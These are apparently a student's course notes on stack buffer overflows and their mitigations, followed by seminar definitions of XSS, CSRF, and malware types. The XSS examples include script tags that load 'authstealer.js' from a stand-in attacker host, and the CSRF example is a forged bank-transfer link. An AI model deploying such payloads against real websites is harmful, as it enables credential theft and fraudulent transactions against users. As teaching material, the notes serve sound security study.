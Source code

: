 # Lecture
## Executable and Linking Format (ELF)

* Collection of headers, segments and sections
* Representation of code and data
* Stored on disk and used to create and start process

## Stack (used for?)

* Lightweight data structure
* Provides functions with static memory (stack frames)
* Not contained within the binary
* Initialized during process startup
* Located at higher end of memory and growing towards lower end
* Maximize space in between

## Stack frame (how can it be used?)

* Contains info about usable memory
* Function's start and end manage each stack-frame
* esp register keeps track of topmost element
* ebp register is used as a reference to point to function arguments and local var
* push instruction to add word-aligned elements
* pop instruction to remove word-aligned elements

## Calling convention (used for?)

- Arg passed via stack
- eip reg passed via stack by CPU
- Function code pushes esp,ebp and other reg
- Results passed back via eax 

## Function call

- khi tạo 1 function thì sẽ add các cái var trong function đó theo stack, theo thứ tự là function->para->return->base  pointer(ebp)->other reg->local var...
- còn trong main sẽ đc fill theo heap

## hack ?

- Attacker controls what is written into buffer
- offset of return with buffer calculatable
- buffer filled with garbage before return
- return points to a callable memory location
- application might crash afterwards
- <img src="C:\Users\dangk\Desktop\DVWA\Function_call.png" style="zoom:67%;" />
- 450 nop-sled (a sequence of [NOP](https://en.wikipedia.org/wiki/NOP_(code)) (no-operation) instructions meant to "slide" the CPU's instruction  execution flow to its final, desired destination whenever the program [branches](https://en.wikipedia.org/wiki/Branch_instruction) to a [memory address](https://en.wikipedia.org/wiki/Memory_address) anywhere on the slide.)
- 33 shellcode
- 37 junk data
- 4 new return address into nop-sled

![](C:\Users\dangk\Desktop\DVWA\overflow.png)

What is buffer overflow

what is stack-based buffer overflow

what is a return add and when it is used

what is a payload and how it is used

what is nop-sled and how it is used

## Mitigation

- Randomize specific memory sections at runtime
  - Candidates sections are: .text,.data,...
  - Offsets within sections do not change
  - Sections have to opt-in
  - Compilerflags to support it
  - Drawback: Only randomize sections. Offsets within section are maintained. Thus leakage of specific pointers can defeat ASLR
  - 32 bits total add
  - Page alignment:12 bits
  - User space
  - mem partition 1 2 3
  - redunction: stack stored in partition one or 2, so effectively 1 bit to guess
  - ->32 - 12 - 1 = 19 bits to guess
- Non excutable: specific segments can be marked as NX
  - Interrupts triggered if such a sections gets executed - > segmentaion fault
  - cpu has to support it
  - compilerflags to support it
  - Draw: do not protected against return oriented approaches
- Stack canaries
  - Magic values placed on stack before stack var
  - Changes with each process invocation
  - Can be checked when leaving functions to prove stack integrity
  - Compilerflags to support it
  - Draw: can potentially leaked, guessed or brute force
- What to do: 
  - use mitigation
  - safe function
  - bounds checking
  - memory-safe programming lang (rust)
  - utilize code analysis (static, dynamic, fuzzing)
  - use modern cpu extension (intel memory protection extensions, control flow enhancement technology)
  
  
# Seminar
- Task1: Define terms and give example:
  - Stored XSS:
    - A persistent XSS, more damage than reflected, the malicious script is injected directly into vulnerable web app, and the script is execute when ever user visit website
    - Directly inject script to html file: `<script> src=”http://hackersite.com/authstealer.js”> </script>.`
  - Reflected XSS:
    - a non-persistent attacks, attacker embedded  malicious script, when user click on the link it will executed 
    - E.g: Inject java script to html tag like: `<a url=http://forum.com?q=news<\script%20src=”http://hackersite.com/authstealer.js”/>`
  - DOM-based XSS:
    - Client side attack, the attack will send the page content instead of server with the html file is injected with malicious code 
    - E.g: attacker can inject an addition box in to these form 
		<img src="https://1.bp.blogspot.com/-8Dn99Siwl-U/VA5r4Csc4sI/AAAAAAAADNQ/0yQHSR3ayFI/s1600/dombased-xss-1.png">
		
		By change message=Please fill in the form to `message=<label>Gender</label><div class="col-sm-4"><select class = "form-control" onchange="java_script_:show()"><option value="Male">Male</option><option value="Female">Female</option></select></div><script>function show(){alert();}</script>`
		<img src="https://1.bp.blogspot.com/-AbZldTkY3Hs/VA5r4AQ7xrI/AAAAAAAADNM/PfO4f5HafSg/s1600/dombased-xss-3.png">
  - CSRF:
    - Using authenticated session cookie of user to establish unwanted operation forge the normal user
    - E.g: a attacker's website implement `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>` to take advantage of if the user already login to bank.com and the cookie still store the authentication token
- Task 2: define term:
  - Evolutionary algorithm:
  
	The mechanisms that mimic the biological evolution with reproduction, mutation and recombination factor to find the stronger solution and eliminate the weakest solution
  - Local search:
  
	The algorithm is to search from solution space by moving around to find the optimal cost or time bound is elapsed
  - Vertex cover:
  
	Is the set of vertex that can cover all the edge, which mean every edge can be one of directly edge of the node in vertex cover. The minimum vertex cover is the minimum vertex cover that we can create
- Task 3: define term:
  - Companion Virus:
  
	Is a companion virus is a computer virus that stores itself in file named similar to other program but with different extension. When user execute the program, it will run before the true program, hence the user is not recognized 
  - Rootkit:
  
	Is the malware that design to give a root access while actively hiding its presence
  - Back door:
  
	Refer to any method that anybody can able to get around a normal security measure and gain the root access to the system
